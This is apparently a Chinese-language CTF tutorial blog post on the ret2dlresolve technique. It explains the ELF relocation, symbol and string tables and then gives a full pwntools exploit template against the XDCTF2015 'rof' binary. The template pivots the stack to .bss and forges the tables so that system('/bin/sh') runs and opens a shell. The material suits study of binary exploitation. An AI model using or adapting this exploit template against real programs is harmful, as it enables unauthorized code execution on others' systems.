 # AdvanceROP-ret2dlresolve


首先要对延迟绑定机制做一个补充，即在延迟绑定中使用的表的名称和功能。

# ELF JMPREL Relocation Table

elf-rel函数重定位表，即ELF程序的.rel.plt段。该段结构的定义如下：

```c
Elf32_Rel       struc ; (sizeof=0x8, align=0x4, copyof_2)
00000000 r_offset        dd ?
00000004 r_info          dd ?
00000008 Elf32_Rel       ends
```

其中，r_offset是该函数的GOT表的虚拟地址，r_info是该函数在dynsym表中的下标。

那么如何通过dl_runtime_resolve获得该函数的Rel地址？dl_runtime_resolve的第一个参数为reloc_arg，而rel_plt_addr + reloc_arg的地址即为该函数的rel表地址。

# ELF Symbol Table

此表即dynsym表。存放着动态链接函数更多的信息，定义如下：

```c
Elf32_Sym       struc ; (sizeof=0x10, align=0x4, mappedto_1)
00000000 st_name         dd ?                    
00000004 st_value        dd ?                    
00000008 st_size         dd ?
0000000C st_info         db ?
0000000D st_other        db ?
0000000E st_shndx        dw ?
00000010 Elf32_Sym       ends
```

这里我们关心几点：1、一个ELF32_Sym结构的大小是16，这个将方便我们之后的伪造。2、st_name为该函数名字符串在dynstr表中的偏移。3、st_value应该是该函数相对于libc的偏移地址。（不确定，也不需要用）

这里我们只需要知道GOT表的重写过程是根据st_name来进行的，我们之后仅需要伪造st_name即可。

# ELF String Table

此表仅存放函数名（字符串），偏移是dynsym表中的st_name。无结构，大致内容如下：

![image-20231103160922604](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231103160922604.png)

以上的三个表均存放在link_map中，而link_map存放在got+4的位置。dl_runtime_resolve的位置在got+8。link_map会在plt[0]中被压入栈中，然后跳转至dl_runtime_resolve函数的位置执行。

# 伪造思路

由于GOT表重写过程对函数的定位均是通过偏移进行的。这里我们不妨让这个偏移更大一点，大到最后的计算出的实际地址是我们可以控制的地址。然后我们在这个地址上分别写入该函数的.rel.plt表、.dynsym表和.dynstr表为我们想要的函数，那么就可以在plt[0]（也就是延迟绑定的过程中）执行任意函数。

由于构造所需的空间较大，这里我们的思路如下：

- 首先将payload读入伪造栈的位置（一般是bss段的位置）
- 然后将栈迁移至伪造栈的位置执行即可。

迁移栈很简单，我们现在需要知道栈该如何构造才行。这里为了执行system函数，构造栈如下：

![img](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/1698998597486-c432e1a6-814b-4d40-9ff1-916090e7544b.png)

然后，我们使用read函数，将上面构造的栈写入bss位置，并进行栈迁移即可。

# 模板

详细解释看注释

```python
from pwn import *

context(arch='i386',os='linux')
context.terminal = ['tmux','splitw','-h']

elf = ELF('./rof')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

r = elf.process()

read_plt = elf.sym['read']
write_plt = elf.sym['write']

ppp_ret = 0x08049351    # pop esi ; pop edi ; pop ebp ; ret
pop_ebp_ret = 0x08049353
leave_ret = 0x08049165

stack_size = 0x800
bss_addr = 0x804c028    # readelf -S rof | grep .bss
base_stage = bss_addr + stack_size

r.recvuntil(b'Welcome to XDCTF2015~!\n')

payload = b'a' * 112
payload += p32(read_plt)
payload += p32(ppp_ret)	# 弹出下面3个栈单位
payload += p32(0)
payload += p32(base_stage)	# 栈迁移的位置
payload += p32(100)	#总共100个字节，下面也得填充到100个字节
payload += p32(pop_ebp_ret)	# 移动ebp至base_stage
payload += p32(base_stage)
payload += p32(leave_ret)	#迁移栈顶，开始执行base+stage + 4位置的代码
r.send(payload)

# fake dynsym （base_stage + 36）
dynsym = 0x8048248
dynstr = 0x80482e8
fake_dynsym = base_stage + 36   # 36 = 4 * 9
alg = 0x10 - ((fake_dynsym - dynsym) & 0xf)   # 两者的差可以被0x10整除，因为一个ELF32Sym的大小为固定的0x10，而且需要使用下标定位每个函数的sym
fake_dynsym = fake_dynsym + alg # 0x10对齐
sym_index = (fake_dynsym - dynsym) // 0x10  # 计算dynsym[sym_index]
r_info = (sym_index << 8) | 0x7 # 根据ELF32_R_SYM(info) ((info)>>8) 反推出.rel.plt中的r_info，其中最低为必须为7   
st_name = (fake_dynsym + 0x10) - dynstr  # func_name = *(dynstr + st_name) 伪造的st_name就放在fake_sym的后面，而fake_sym的大小是4 * 4 = 16, 所以st_name = （fake_dynsym + 0x10） - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)   # 伪造write函数的符号表，按照结构体的规定，该内容将被填入base_stage+36的部位

# fake .rel.plt （base_stage + 28）
plt_0 = 0x8049030   # push link_map;jmp dl_runtime_resolve
rel_plt = 0x80483a0
fake_rel_plt = base_stage + 28  # 28 = 4 * 7
fake_reloc = fake_rel_plt - rel_plt # rel_plt + fake_reloc -> base_stage + 28 -> fake_rel_plt
r_offset = elf.got['write']
# r_info 已经计算完毕
fake_rel = p32(r_offset) + p32(r_info)  # 伪造write函数.rel.plt内容

# 调用过程：
# .rel.plt + reloc_arg -> write_rel_plt (r_offset r_info)
# dynsym[(r_info) >> 8] -> write_sym (st_name st_value)
# dynstr[st_name] = 'write'
bin_sh = b'/bin/sh\x00'

payload = b'AAAA'
payload += p32(plt_0)   # push link_map;jmp dl_runtime_resolve
payload += p32(fake_reloc)  # reloc_arg
payload += p32(0xdead)    # retn addr
payload += p32(base_stage + 80)   # system arg 
payload += b'AAAA' # base_stage + 20
payload += b'AAAA' # base_stage + 24
payload += fake_rel # fake .rel.plt base_stage + 28 (8 bytes)
payload += alg * b'A'   # base_stage + 36
payload += fake_sym # fake .dynsym base_stage + 36 + algin (16 bytes)
payload += b'system\x00' # fake st_name base_stage + 36 + algin + 0x10 (6 bytes)
payload += b'A' * (80 - len(payload))
payload += bin_sh   # base_stage + 80
payload += b'A' * (100 - len(payload))  # read(0,base_stage,100)

r.send(payload)
r.interactive()
```


---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/11/advancerop-ret2dlresolve/  

